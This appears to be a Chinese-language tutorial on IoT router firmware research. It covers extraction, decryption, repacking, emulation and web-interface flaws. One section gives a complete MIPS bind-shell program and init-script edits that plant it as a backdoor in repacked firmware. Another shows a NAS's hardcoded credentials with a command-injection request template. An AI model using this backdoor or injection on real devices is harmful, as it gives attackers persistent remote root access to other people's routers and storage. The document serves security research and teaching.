

[TOC]

# ubuntu 全局代理

+ electron-ssr.deb
  + 登录ssr

```bash
#~/.bashrc curl与wget等可以走ssr代理
export http_proxy=http://127.0.0.1:12333
export https_proxy=http://127.0.0.1:12333

# git config --global 设置全局代理
http.proxy=socks5://127.0.0.1:1080
https.proxy=socks5://127.0.0.1:1080
```

速度飞起，主要是为了解决git clone 国外镜像的问题


# IOT漏洞挖掘

## 信息收集

收集目标尽可能多的信息，比如历史CVE，架构，操作系统平台等。了解其基础技术的总体组成。

针对开源代码库的扫面工具：[Coverity Scan](https://scan.coverity.com/)和[Semmle的LGTM](https://lgtm.com/#explore)


## 固件提取

固件并不是硬件，只因为在路由器中被固化只读存储器中因此有固件之称。

那么获取固件的两种思路：

+ 网上下载(良心场商)
+ 硬件接入(物理获取)，从路由器的Flash中提取

## 固件分析

### 固件解密

判断固件时候被加密：`binwalk -e`无法解析固件**结构**全是清一色，-A参数无法识别任何cpu架构的指令


解密方法：

+ 从硬件获取解密密钥：此种方法只限于固件始终以加密状态存在，当系统启动时才通过解密解包加载至flash。

  + 由于flash中完整的解密过程可通过编程器读取flash，逆向解密算法(一般都是AES等公开分组算法)和密钥。例：

  + > 0x000000-0x020000 boot section 
    >
    > 0x020000-0x070000 encrypt section 
    >
    > 0x070000-0x200000 encrypt section 
    >
    > 0x200000-0x400000 config section

+ 对比边界版本：方法适用于场商一开始没有设置加密方案，也就是旧固件未加密，随后固件升级中使用加密。

  + 我们可以在一些列版本中找到未加密和加密版本之间的边界版本，解包最后一个未加密的逆向升级程序即可
  + 
  + 然后搜索包含诸如“firmware”、“upgrade”、“update”、“download”等关键字的组合定位升级程序位置
  + 当然存在调试手段也可以在升级时ps查看进程更新定位升级程序和参数：
    + `/usr/sbin/encimg -d -i <fw_path> -s <image_sign>`,然后使用IDA逆向encimg

+ 逆向升级程序：此种方法适用于已经通过接口或边界版本得到升级程序，可以利用分组算法的盒检测工具来判别加密算法和定位位置，当然binwalk也可以解析某些简单情况，比如某工控HMI固件：

  + > iot@attifyos ~/Documents> binwalk hmis.tar.gz DECIMAL       HEXADECIMAL     DESCRIPTION -------------------------------------------------------------------------------- 34       0x22        OpenSSL encyption, salted, salt:0x5879382A7

  + 直接加载升级程序，定位openssl调用很容易就得到解密命令：

  + 

+ 漏洞获取密钥：如果找不到边界版本，又找不到调试接口或不熟悉硬件调试，可以考虑采用历史版本漏洞先获取设备控制权，在拿到升级程序逆向加密算法。这种方法比较取巧，需要设备存在RCE漏洞的历史固件，通过降级操作植入漏洞获取权限，**下载所需升级程序，然后逆向得到加密算法。**

当成功获取固件后，使用以下步骤分析固件文件类型，root文件系统元数据

```bash
 file   
 strings  
 strings -n5   
 binwalk   
 hexdump -C -n 512  > hexdump.out  
 hexdump -C  | head # might find signatures in header
```

如果以上方法没有提供有效，可能是一下情况：

+ 文件可能是BareMetal（没有配置文件系统）
+ 文件可能用于自定义文件系统的实时操作系统（RTOS）平台
+ 二文件可能已加密

用binwalk来检查是否加密：

```bash
binwalk -E target
```

低熵=不太可能被加密

高熵=可能已加密（或以某种方式压缩）。

也可以使用Binvis在线和应用程序:

+  https://code.google.com/archive/p/binvis/
+ https://binvis.io/#/


## **提取文件系统**

文件系统是操作系统的重要组成部分，不同的路由器的文件系统不尽相同。根文件打包成当前路由器所使用的文件系统格式然后组装到固件中

文件系统类型：squashfs，ubifs，romfs，rootfs，jffs2，yaffs2，cramfs，initramfs

这样的嵌入式设备肯定是越小巧越好，因此文件系统压缩存储，比如squashfs是一个只读格式的文件系统其压缩率可达34%。当系统启动后会将文件系统保存在一个压缩过的文件系统中，使用换回的形式挂载访问，当进程需要访问某些文件时只对部分压缩文件解压

一个路由器固件包含了：文件系统，内核镜像等文件，全部在一个*.bin文件中，需要根据每部分的特征(elf 程序以ELF开头)进行提取，对于常见的squashfs文件系统其头部特征比较多包括：sqsh，hsqs，qshs，shsq，hsqt，tqsh，sqlz

**例子**：

```bash
iot@attifyos ~/D/dir815_FW_101> 
strings ./DIR-815\ FW\ 1.01b14_1.01b14.bin | grep 'sqsh'
iot@attifyos ~/D/dir815_FW_101> 
strings ./DIR-815\ FW\ 1.01b14_1.01b14.bin | grep 'hsqs'
hsqs
```

就这样还不能确定，一个squashfs的文件系统头部校验不会超过100字节，所以从`hsqs`开始提取100字节来看看：

```bash
hexdump -C ./DIR-815\ FW\ 1.01b14_1.01b14.bin | grep 'hsqs'
000f0080  00 00 00 00 00 00 00 00  00 00 00 00 68 73 71 73  |............hsqs|

dd if=./DIR-815\ FW\ 1.01b14_1.01b14.bin skip=983180 bs=1 count=100 of=test_head
iot@attifyos ~/D/dir815_FW_101> file test_head 
test_head: Squashfs filesystem, little endian, version 4.0, 2808054 bytes, 1526 inodes, blocksize: 262144 bytes, created: Thu May 12 14:14:40 2011
```

好了，我们从头部知道其整个文件系统大小为2808054 bytes，同样的方法再提取一次即可，然后根据其压缩算法用对应程序进行解压(一般为LZMA)


## 分析文件系统

搜索以下内容：

+ 不安全网络守护程序，例如telnetd（有时会伪装重命名文件）
+ 硬编码的凭证（用户名，密码，API密钥，SSH密钥和后门变体）
+ 可用作入口点的服务器更新函数
+ 查看未编译的代码并启动脚本执行远程代码

手动静态分析文件系统内容和未编译的代码，或利用诸如Firmwalker之类的自动化工具来分析敏感内容


## 解包重建

对以下情况我们要重新打包固件：

+ 固件植入后门程序
+ 固件仿真修patch某些和固件交互的函数

### 后门植入

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;
	
	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY; 

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);

    while (1) { 
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork(); 
        if (server_pid) { 
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd); 
    	} close(clientfd);
    } return 0;
}
```

交叉编译为对应架构的程序后放入文件系统中，还要改写初始化脚本让系统自启后门：

```bash
#!/bin/sh
for i in /etc/init.d/S??* ;do
        # Ignore dangling symlinks (if any).
        [ ! -f "$i" ] && continue
        # Run the script.
        echo "[$i]"
        $i
done
echo "[$0] done!"
/bin/bindshell &			#<======
/etc/init0.d/rcS
```

在重新打包固件前我们用binwalk重点查看：`compression`压缩算法，`blocksize`块大小 还有文件系统在整个bin中的偏移

```bash
iot@attifyos ~/Desktop> binwalk -Mv ./dir815_FW_101/DIR-815\ FW\ 1.01b14_1.01b14.bin 

Scan Time:     2021-07-25 02:24:21
Target File:   /home/iot/Desktop/dir815_FW_101/DIR-815 FW 1.01b14_1.01b14.bin
MD5 Checksum:  cff3aa9820e35e21a146ce45f2155f42
Signatures:    396

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             DLOB firmware header, boot partition: "dev=/dev/mtdblock/2"
108           0x6C            LZMA compressed data, properties: 0x5D, dictionary size: 33554432 bytes, uncompressed size: 3017436 bytes
983148        0xF006C         PackImg section delimiter tag, little endian size: 14690816 bytes; big endian size: 2809856 bytes
983180        0xF008C         Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 2808054 bytes, 1526 inodes, blocksize: 262144 bytes, created: 2011-05-12 14:14:40
```

用以下

```bash
iot@attifyos ~/Desktop> mksquashfs ./target/ ./temp.fs -comp lzma -b 256k 
Parallel mksquashfs: Using 1 processor
Creating 4.0 filesystem on ./temp.fs, block size 262144.
[=========================================================================================================================================================|] 1260/1260 100%

Exportable Squashfs 4.0 filesystem, lzma compressed, data block size 262144
	compressed data, compressed metadata, compressed fragments, compressed xattrs
	duplicates are removed
Filesystem size 4018.53 Kbytes (3.92 Mbytes)
	26.59% of uncompressed filesystem size (15111.46 Kbytes)
Inode table size 9614 bytes (9.39 Kbytes)
	20.13% of uncompressed inode table size (47752 bytes)
Directory table size 12830 bytes (12.53 Kbytes)
	38.51% of uncompressed directory table size (33316 bytes)
Number of duplicate files found 88
Number of inodes 1471
Number of files 1233
Number of fragments 30
Number of symbolic links  145
Number of device nodes 0
Number of fifo nodes 0
Number of socket nodes 0
Number of directories 93
Number of ids (unique uids + gids) 1
Number of uids 1
	iot (1000)
Number of gids 1
	iot (1000)
iot@attifyos ~/Desktop> file temp.fs 
temp.fs: Squashfs filesystem, little endian, version 4.0, 4114973 bytes, 1471 inodes, blocksize: 262144 bytes, created: Sun Jul 25 09:36:21 2021
```

然后用dd提取其他所有文件，合并：

```bash
iot@attifyos ~/Desktop> dd if=./dir815_FW_101/DIR-815\ FW\ 1.01b14_1.01b14.bin skip=0 bs=1 count=983180 of=./temp.head
983180+0 records in
983180+0 records out
983180 bytes (983 kB, 960 KiB) copied, 2.45301 s, 401 kB/s
iot@attifyos ~/Desktop> binwalk -Mv ./temp.head 

Scan Time:     2021-07-25 02:39:20
Target File:   /home/iot/Desktop/temp.head
MD5 Checksum:  e28b6e5e1d6646f7864d46aac3fb6156
Signatures:    396

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             DLOB firmware header, boot partition: "dev=/dev/mtdblock/2"
108           0x6C            LZMA compressed data, properties: 0x5D, dictionary size: 33554432 bytes, uncompressed size: 3017436 bytes
983148        0xF006C         PackImg section delimiter tag, little endian size: 14690816 bytes; big endian size: 2809856 bytes

iot@attifyos ~/Desktop> cat ./temp.fs >> temp.head 
iot@attifyos ~/Desktop> binwalk -Mv ./temp.head 

Scan Time:     2021-07-25 02:39:49
Target File:   /home/iot/Desktop/temp.head
MD5 Checksum:  97d04abdd2c589a2be5c1ba150d09608
Signatures:    396

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             DLOB firmware header, boot partition: "dev=/dev/mtdblock/2"
108           0x6C            LZMA compressed data, properties: 0x5D, dictionary size: 33554432 bytes, uncompressed size: 3017436 bytes
983148        0xF006C         PackImg section delimiter tag, little endian size: 14690816 bytes; big endian size: 2809856 bytes
983180        0xF008C         Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 4114973 bytes, 1471 inodes, blocksize: 262144 bytes, created: 2021-07-25 09:36:21
```

可见binwalk能够识别，接下来用fat模拟启动，尝试连接即可。在实际操作中如果失败多次就要考虑去查看官方打包工具，对其进行逆向分析。**下面以netgear XR300打包流程为例，进行分析**


## 固件打包流程

由于firmware-mod-kit缺乏维护更新，直接用其下的脚本自动化打包很可能会出现变砖的情况。因此这里学习以官方打包工具逆向分析，对固件有更为全面的了解。

固件：[netgear XR300](https://www.downloads.netgear.com/files/GDC/XR300/XR300-V1.0.3.56_10.3.41.zip)

官方源码包：https://www.downloads.netgear.com/files/GPL/XR300-V1.0.2.24_10.3.21_src.tar.zip

binwalk观察结构：

```bash
iot@attifyos ~/Desktop> binwalk -v XR300-V1.0.2.24_10.3.21.chk 

Scan Time:     2021-07-28 00:27:50
Target File:   /home/iot/Desktop/XR300-V1.0.2.24_10.3.21.chk
MD5 Checksum:  9bdd87c5340fa1f04acc28cba3d1eb6d
Signatures:    396

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
58            0x3A            TRX firmware header, little endian, image size: 35921920 bytes, CRC32: 0x3DB7DE14, flags: 0x0, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x21159C, rootfs offset: 0x0
86            0x56            LZMA compressed data, properties: 0x5D, dictionary size: 65536 bytes, uncompressed size: 5325664 bytes
2168278       0x2115D6        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 33750586 bytes, 2792 inodes, blocksize: 131072 bytes, created: 2019-04-12 06:24:01
```

组成为：0x3a的netgear_header，0x1c的trx_header， 后面就是kernel+squashfs文件系统了。

针对squashfs文件系统网上的方案一般是使用开源工具mksquashfs来重新生成。我们来试试(未植入后门)：

```bash
iot@attifyos ~/Desktop> hexdump -C  ./RX.sfs.remake | tail -n 10                      │iot@attifyos ~/Desktop> hexdump -C ./XR300-V1.0.2.24_10.3.21.chk | tail -n 10
0202d9d0  b0 01 d1 62 11 40 ab a9  af 29 bb 71 35 f4 a9 42  |...b.@...).q5..B|        │022413a0  5f 74 3a 73 30 00 02 00  07 00 73 65 6c 69 6e 75  |_t:s0.....selinu|
0202d9e0  fe 14 ae f4 d6 72 39 9e  ab 84 72 5b a8 db fd c5  |.....r9...r[....|        │022413b0  78 21 00 00 00 73 79 73  74 65 6d 5f 75 3a 6f 62  |x!...system_u:ob|
0202d9f0  4c b6 86 5b 33 b1 8e c5  6d 00 b5 32 5b cb a9 72  |L..[3...m..2[..r|        │022413c0  6a 65 63 74 5f 72 3a 75  73 65 72 5f 68 6f 6d 65  |ject_r:user_home|
0202da00  f2 c6 b1 ef 0a 3c ae dd  4d d0 a4 ca 0b c3 89 4b  |.....<..M......K|        │022413d0  5f 74 3a 73 30 00 20 80  00 00 00 00 00 00 00 00  |_t:s0. .........|
0202da10  5b 75 de 87 b1 d6 8a 00  00 00 00 87 d7 b4 70 00  |[u............p.|        │022413e0  01 00 00 00 31 00 00 00  2f 00 00 00 00 00 00 00  |....1.../.......|
0202da20  01 b1 07 c0 2e 00 00 f1  4d 7d e4 3e 30 0d 8b 02  |........M}.>0...|        │022413f0  01 00 00 00 32 00 00 00  9f fd 02 02 00 00 00 00  |....2...........|
0202da30  00 00 00 00 01 59 5a c5  cc 02 02 00 00 00 00 2b  |.....YZ........+|        │02241400  02 00 00 00 00 00 00 00  00 fe 02 02 00 00 00 00  |................|
0202da40  d2 02 02 00 00 00 00 5d  d6 02 02 00 00 00 00 04  |.......]........|        │02241410  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0202da50  80 e8 03 00 00 4f da 02  02 00 00 00 00           |.....O.......|           │*
0202da5d                                                                              │0224203a
iot@attifyos ~/Desktop>                                                               │iot@attifyos ~/Desktop>
```

可以看到原来文件系统的尾部是有一些信息的，在开源工具压缩后就没了，这样输入一个路由器中是不行的。

根据其说明书找到Makefile中进行打包的关键部分(这里就没去分析mksquashfs程序是如何操作根文件系统的了)：

```makefile
#2. Run the following commands to build image
 #       cd XR300-V1.0.2.24_10.3.21_src/src/router/
  #      make PROFILE=XR300 FW_TYPE=WW ARCH=arm PLT=arm LINUX_VERSION=2_6_36
	#make install PROFILE=XR300 FW_TYPE=WW ARCH=arm PLT=arm LINUX_VERSION=2_6_36
export PLATFORMDIR := $(TOP)/$(PLATFORM)
export INSTALLDIR := $(PLATFORMDIR)/install
export TARGETDIR := $(PLATFORMDIR)/target
ifeq ($(CONFIG_SQUASHFS), y)
ROOT_IMG := target.squashfs
else
ROOT_IMG := target.cramfs
endif

ifeq ($(CONFIG_SQUASHFS), y)
ifeq (2_6_36,$(LINUX_VERSION))
    $(MAKE) -C squashfs-4.2 mksquashfs
    find $(TARGETDIR) -name ".svn" | xargs rm -rf
    squashfs-4.2/mksquashfs $(TARGETDIR) $(PLATFORMDIR)/$(ROOT_IMG) -noappend -all-root

trx -o $(PLATFORMDIR)/linux.trx $(PLATFORMDIR)/vmlinuz $(PLATFORMDIR)/$(ROOT_IMG) ; \

	###########################################
	### Create .chk files for Web UI upgrade ##
	cd $(PLATFORMDIR) && touch rootfs && \
	../../../tools/packet -k linux.trx -f rootfs -b $(BOARDID_FILE) \
	-ok kernel_image -oall kernel_rootfs_image -or rootfs_image \
	-i $(fw_cfg_file) && \
	rm -f rootfs && \
	cp kernel_rootfs_image.chk $(FW_NAME)_`date +%m%d%H%M`.chk
```

可见这里是编译的squashfs-4.2然后进行压缩(要求在32-bit i386 Fedora 6 Linux )这里不进行演示。在实操中安makefile的去重新打包成功率就很高了。继续

下面的trx工具，需要逆向：

```c
//IDA可以自动识别该结构体
struct trx_header {
    uint32_t magic;     /* "HDR0" TRX魔数*/
    uint32_t len;       /* Length of file including header 生成文件的大小*/
    uint32_t crc32;     /* 32-bit CRC from flag_version to end of file 从flag_version字段到结尾的crc32校验码*/
    uint32_t flag_version;  /* 0:15 flags, 16:31 version */
    uint32_t offsets[3];    /* Offsets of partitions from start of header 组成部分的偏移如kernnel和文件系统*/
};
```

仅对trx -o ./tmp.trx vmliunz target.fs分析：

```c
while ( 1 )
          {
            v78 = _IO_getc(vmlinuz);
            c = v78;
            if ( v78 == -1 )
              break;
            _IO_putc(v78, tmp);
            ++hdr.len;
          }
....
for ( i = 0; ; ++i )
            {
              v82 = _IO_getc(squashfs);
              c = v82;
              if ( v82 == -1 )
                break;
              _IO_putc(v82, tmp);
              ++hdr.len;
            }
            hdr.offsets[2] = i;                 // offset[2] = fs大小 似乎有问题
....
      for ( c = 0; hdr.len & 0xFFF; ++hdr.len )
    _IO_putc(c, tmp);                           // 对齐
  hdr.crc32 = hndcrc32((uint8 *)&hdr.flag_version, 0x10u, 0xFFFFFFFF);
  fseek(tmp, 0, 0);
  while ( 1 )
  {
    c = _IO_getc(tmp);
    if ( c == -1 )
      break;
    hdr.crc32 = hndcrc32((uint8 *)&c, 1u, hdr.crc32);
  }
  fwrite(&hdr, 0x1Cu, 1u, out);
  fseek(tmp, 0, 0);
  while ( 1 )
  {
    v83 = _IO_getc(tmp);
    c = v83;
    if ( v83 == -1 )
      break;
    _IO_putc(v83, out);
  }
```

两个文件没有间隔的连在一起，最后给offset赋值的时候根据binwalk显示的偏移，应该改为offset[1] = 并i放在前面。最后一部分就是对齐，crc32校验码计算，TRX头和前面的两个合并。

```bash
iot@attifyos ~/Desktop> hexdump -C ./tmp.trx | head -n 10
│00000000  48 44 52 30 00 20 23 02  26 8b f8 a0 00 00 01 00  |HDR0. #.&.......|
│00000010  1c 00 00 00 00 00 00 00  64 0a 03 02 5d 00 00 01  |........d...]...|

iot@attifyos ~/Desktop> hexdump -C ./tmp.trx | grep hsqs
│00200840  20 63 b9 29 86 18 92 66  da ac 0b 68 73 71 73 e8  | c.)...f...hsqs.|
```

也就是说这个trx工具主要进行合并+TRX头的操作

当然这里不是最后的固件，从Makefile中可以发现，最后用packet工具生成的。分析：

```c
    save = malloc(size_fs + size_ker + 300);
    if ( save )
    {
      if ( size_fs )
        memcpy(save, rootfs, size_fs);
      if ( size_ker )
        memcpy((char *)save + size_fs, ker, size_ker);
       .....
           ......
      memcpy(buffer, &hdr, n);
      memcpy((char *)buffer + n, &boardID_1, v27);
      memcpy((char *)buffer + v26, save, size_all);        
```

有如下头结构体：

```bash
00000000 hdr             struc ; (sizeof=0x28, mappedto_5)
00000000                                         ; XREF: addHeader/r
00000000 magic           db 4 dup(?)			;*#$^
00000004 size_head       db 4 dup(?)             ; XREF: addHeader+2C9/w
00000008 regionidx       db ?                    ; XREF: addHeader+2FA/w
00000009 version         db 7 dup(?)             ; XREF: addHeader+3C7/w
00000009                                         ; addHeader+3D0/w ...
00000010 ker_sum         db 4 dup(?)             ; XREF: addHeader+468/w
00000014 fs_sum          db 4 dup(?)             ; XREF: addHeader+42D/w
00000018 size_ker        db 4 dup(?)             ; XREF: addHeader+4B2/w
0000001C size_fs         db 4 dup(?)             ; XREF: addHeader+4FC/w
00000020 sum_ker_fs      db 4 dup(?)             ; XREF: addHeader+537/w
00000024 sum_all         db 4 dup(?)             ; XREF: addHeader+625/w
00000028 hdr             ends
```

主要进行包括文件大小，版本信息，kernel大小文件系统带线大小和校验和。然后把头接上:

```bash
iot@attifyos ~/Desktop> hexdump -C ./ker_fs_image.chk | head -n 10
00000000  2a 23 24 5e 00 00 00 3a  01 01 00 02 12 0a 03 0f  |*#$^...:........|
00000010  67 b1 88 58 00 00 00 00  02 23 20 00 00 00 00 00  |g..X.....# .....|
00000020  67 b1 88 58 f5 ed 0a 30  55 31 32 48 33 33 32 54  |g..X...0U12H332T|
00000030  37 38 5f 4e 45 54 47 45  41 52 48 44 52 30 00 20  |78_NETGEARHDR0. |		#<====== TRX头
00000040  23 02 26 8b f8 a0 00 00  01 00 1c 00 00 00 00 00  |#.&.............|
00000050  00 00 64 0a 03 02 5d 00  00 01 00 c0 ce 4e 00 00  |..d...]......N..|
00000060  00 00 00 00 69 bc 00 2e  35 68 b6 00 f9 76 69 59  |....i...5h...viY|
00000070  86 6f 63 d5 f3 bd 55 19  37 98 05 65 c2 0b f9 45  |.oc...U.7..e...E|
00000080  ef 68 0c 8e c0 c8 bc 50  8a b6 02 c8 7c e1 ce e2  |.h.....P....|...|
00000090  fd fc 6e 8b 5f 8e ff b0  0e 5f 58 18 f5 fb 50 61  |..n._...._X...Pa|
```


## 固件分析

使用开源自动固件分析工具：FACT，功能如下：

**·** 标识软件组件（例如操作系统，CPU体系结构和第三方组件）及其关联的版本信息

**·** 从映像中提取固件文件系统

**·** 检测证书和私钥

**·** 检测通用漏洞CWE

**·** 基于签名的漏洞检测

**·** 基本静态行为分析

**·** 固件版本和文件差异比较

**·** 使用QEMU的文件系统的用户模式仿真

**·** 检测二进制缓解措施，例如NX，DEP，ASLR，stack canaries，RELRO和FORTIFY_SOURCE

**·** REST API

> ```scala
> 建议使用具有16核64GB RAM的计算机运行FACT，尽管该工具可以至少4核和8GB RAM运行，但是非常慢；扫描输出结果取决于分配给虚拟机的资源。资源越多，FACT将完成扫描提交的速度越快。
> ```

然后对可疑文件逆向分析


## 固件仿真

分为部分仿真，完整系统仿真，真实设配：

+ 部分仿真：用chroot + qemu-static 仿真从文件系统中提取出来的可疑文件
+ 完整的系统仿真-完整的固件仿真和利用伪造的NVRAM启动配置。(https://github.com/attify/firmware-analysis-toolkit)
+  使用真实设备或虚拟机进行仿真-有时，由于硬件或体系结构的依赖性，部分或全部仿真可能无法正常工作。如果架构和字节序与拥有的设备（例如树莓派）匹配，则可以将根文件系统或特定文件传输到该设备以进行进一步测试。此方法还适用于使用与目标相同的体系结构和字节序的Build虚拟机。

在用仿真项目对于需要和交换机等硬件频繁交互的路由器会模拟失败，这时候需要对负责硬件交互的函数进行libc劫持，从crash log可以看到哪个函数出问题然后进行劫持

[2020.03.19 修改firmadyne修复模拟崩溃 – le3d1ng (leeeddin.github.io)](https://leeeddin.github.io/firmadyne/)

## 动态仿真

在此阶段，请在设备在其正常或仿真环境中运行时执行动态测试。此阶段的目标可能会因项目和访问级别而异。通常，涉及修改引导程序配置，Web和API测试，Fuzz（网络和应用程序服务），以及使用各种工具集进行主动扫描以获取root访问权限或代码执行。


## Web服务

路由器、防火墙、NAS和摄像头等由于功能复杂，为方便交互一般都会提供web管理服务。

IOT web常采用开源框架+自研模块的方式，一般漏洞点：

+ 自研CGI模块存在漏洞的概率较高，漏洞差异性大
+ 开源框架如果存在漏洞，其广泛存在各种设备

### 漏洞类型

#### 常见web漏洞

如弱口令，sql注入、xss、csrf、ssrf、xxe等。路由器，防火墙等边界设备尤其注意ssrf漏洞，不然很容易成为内网渗透的垫脚石

#### 硬编码

硬编码是开发人员为了调试方便或其他原因再设备内部保留的后门，一般权限较高。如科磊某款路由器的IGDMPTD进程默认开启53413端口，连接就直接获取root shell

许多IOT的web应用也可能存在硬编码后门，如某NAS的nas_sharing.cgi的部分伪码：

```c
struct passwd *result; // r0@4
    FILE *v5; // r6@5
    struct passwd *v6; // r5@7
    {...}
    if (!strcmp(v3, "mydlinkBRionyg") 
    &&  !strcmp((const char *)&v9, "abc12345cba") )
    {
        result = (struct passwd *)1;
    }
    else
    {
    v5 = (FILE *)fopen64("/etc/shadow", "r");
    {...}
    if ( !strcmp(result->pw_name, v3) )
    {
        strcpy(&s, v6->pw_passwd);
        fclose(v5);
        strcpy(&dest, (const char *)&v9);
        v7 = (const char *)sub_1603C(&dest, &s);
        return (struct passwd *)(strcmp(v7, &s) == 0);
    }
    {...}
}
```

可以看到代码中包含了一个管理员凭据(用户名/密码)，还是用了危险函数，结合硬编码可以构造命令注入：

```http
GET /cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlinkBRionyg&passwd=YWJjMT
IzNDVjYmE&start=1&count=1;{your cmd};
```

这种漏洞比较直观


### httpd的启动

+ 在/etc/init*相关初始化脚本中启动
+ 在init进程中启动

以在某路由器中init程序为例。在sbin中存在很多指向cr的链接文件，其中init启动了我们较为关注的服务：

来逆向以下rc程序：

```c
  pcVar1 = strrchr(*param_2,0x2f);
  __haystack = pcVar1 + 1;
  if (pcVar1 == (char *)0x0) {
    __haystack = *param_2;
  }
  pcVar1 = strstr(__haystack,"init");
  if (pcVar1 != (char *)0x0) {
    INIT();				//通过链接文件的名字启动对应函数
    return 0;
  }
  pcVar1 = (char *)nvram_get("time_zone");
  if (pcVar1 == (char *)0x0) {
    pcVar1 = "";
  }
```

继续看INIT():

```C
void INIT(void)

{
  char *__nptr;
  undefined *local_c;
  
  local_c = &_gp;
  setup_1();
  signal_init();
  signal(1,(__sighandler_t)&LAB_00406314);
  signal(0x10,(__sighandler_t)&LAB_00406314);
  signal(0x11,(__sighandler_t)&LAB_00406314);
  signal(2,(__sighandler_t)&LAB_00406314);
  signal(0xe,(__sighandler_t)&LAB_00406314);
  sigemptyset((sigset_t *)&stack0xffffff28);
  if (DAT_100000c4 == 0) {
    run_shell(1,0);
  }
  __nptr = (char *)nvram_get("boardflags");		//<====nvram系列函数
  if (__nptr == (char *)0x0) {
    __nptr = "";
  }
    .....
}

/*setup_1():创建如下文件以及初始化控制台*/
...
  mount("proc","/proc","proc",0xc0ed0000,(void *)0x0);
  mount("ramfs","/tmp","ramfs",0xc0ed0000,(void *)0x0);
  mkdir("/tmp/var",0x1ff);
  mkdir("/var/lock",0x1ff);
  mkdir("/var/log",0x1ff);
  mkdir("/var/run",0x1ff);
  mkdir("/var/tmp",0x1ff);
  mkdir("/tmp/www",0x1ff);
....
  iVar2 = console_init();

/*run_shell(1,0);fork一个子进程接受控制台命令，父进程等待*/
  if (0 < iVar1) {
    __pid = fork();
    if (__pid == -1) {
      perror("fork");
      __pid = 0;
    }
    else {
      iVar1 = 0;
      if (__pid == 0) {
        do {
          iVar4 = iVar1 + 1;
          signal(iVar1,(__sighandler_t)0x0);
          iVar1 = iVar4;
        } while (iVar4 < 0x7f);
        console_init();
        pcVar2 = getenv("TZ");
        snprintf(acStack1064,1000,"TZ=%s",pcVar2);
        local_1c = DAT_10000194;
        local_20 = PTR_s_/bin/sh_10000190;
        execve("/bin/sh",&local_20,&local_40);
        perror("/bin/sh");
        piVar3 = __errno_location();
                    /* WARNING: Subroutine does not return */
        exit(*piVar3);
      }
      if (param_2 == 0) {
        waitpid(__pid,(int *)0x0,0);
        __pid = 0;
      }
```

启动一系列服务：

```c
undefined4 start_services(void)

{
  start_syslog();
  start_tftpd();
  start_cron();
  start_httpd();
  start_dns();
  start_dhcpd();
  start_upnp();
  start_nas(&DAT_00440524);
  start_zebra();
  start_eou();
  start_ses();
  return 0;
}

/*在start_httpd函数中*/
  if ((!bVar1) || (iVar3 = is_exist("/var/run/httpd.pid"), iVar3 != 0)) goto LAB_00413b1c;
  chdir("/www");
  iVar3 = chdir("/tmp/www");
  if (iVar3 == 0) {
    __s = fopen("/dev/console","w");
    if (__s != (FILE *)0x0) {
      pcVar2 = "[HTTPD Starting on /tmp/www]\n";
      __n = 0x1d;
LAB_00413e3c:
      fwrite(pcVar2,1,__n,__s);
      fclose(__s);
    }
  }
  else {
    __s = fopen("/dev/console","w");
    if (__s != (FILE *)0x0) {
      pcVar2 = "[HTTPD Starting on /www]\n";
      __n = 0x19;
